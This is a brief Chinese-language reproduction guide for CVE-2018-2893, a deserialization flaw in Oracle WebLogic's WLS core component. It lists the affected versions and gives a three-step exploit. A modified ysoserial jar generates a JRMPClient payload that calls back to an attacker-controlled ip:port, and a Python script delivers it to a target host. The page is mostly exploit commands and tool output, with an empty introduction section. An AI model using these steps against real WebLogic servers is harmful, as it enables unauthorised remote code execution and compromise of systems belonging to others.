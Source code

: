 # CVE-2018-2893 WebLogic WLS核心组件反序列化漏洞

### 一、漏洞简介

### 二、漏洞影响

Oracle WebLogic Server 10.3.6.0

Oracle WebLogic Server 12.1.3.0

Oracle WebLogic Server 12.2.1.2

Oracle WebLogic Server 12.2.1.3

### 三、复现过程

https://github.com/ianxtianxt/CVE-2018-2893

Step 1


```
java -jar ysoserial-cve-2018-2893.jar
```


```bash
WHY SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
Available payload types:
     Payload     Authors   Dependencies
     -------     -------   ------------
     JRMPClient  @mbechler
     JRMPClient2 
     JRMPClient3 
     JRMPClient4 
     Jdk7u21     @frohoff
```

Step 2


```
java -jar ysoserial-cve-2018-2893.jar JRMPClient4 "<ip>:<port>" > poc4.ser
```

Step 3


```
python weblogic.py <host> <port> poc4.ser
```